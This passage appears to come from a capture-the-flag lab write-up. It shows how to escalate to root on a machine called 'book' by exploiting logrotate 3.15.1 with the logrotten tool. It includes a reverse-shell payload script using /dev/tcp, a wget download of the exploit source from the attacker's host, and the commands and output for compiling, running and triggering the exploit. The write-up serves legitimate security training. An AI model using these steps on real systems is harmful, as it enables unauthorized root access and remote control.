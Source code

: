 Researching for "logrotate exploit" on google, we can find an exploit for `Logrotate 3.15.1`. [This packetstorm article](https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html) explains to exploit and references [this GitHub](https://github.com/whotwagner/logrotten).

### Exploitation of logrotate

We can use [this exploit](https://github.com/whotwagner/logrotten) to exploit logrotate and get a shell as root. For this we have to create a payload file that will be executed in the context of root.

```bash
reader@book:/tmp$ cat ex.sh 
#!/bin/bash
if [ `id -u` -eq 0 ]
 then
         (bash -c 'bash -i >& /dev/tcp/127.0.0.1/9001 0>&1')
fi
```

Our payload is a simple reverse-shell to the local system. Now we have to transfer and compile logrotten to the target and execute it.

```bash
reader@book:/tmp$ wget 10.10.14.37/logrotten.c
2020-06-18 15:12:28 (4.79 MB/s) - ‘logrotten.c’ saved [7342/7342]
reader@book:/tmp$ gcc logrotten.c -o logrotten
```

Now that we have compiled the exploit, we can run it with the exploit-file and the logfile as arguments.

```bash
reader@book:/tmp$ ./logrotten -p ex.sh /home/reader/backups/access.log
```

Now that the exploit is running, we have to trigger it by writing something to the logfile.

```bash
reader@book:~$ echo "test" > backups/access.log
```

Writing into backups/access.log triggers the log rotation, which gives us time for our exploit to execute the reverse-shell.

We can change the execution and triggering of the exploit into a one-liner like this:

```bash
reader@book:/tmp$ (./logrotten -p ex.sh /home/reader/backups/access.log &); \
> echo "test" > /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!

reader@book:/tmp$
```
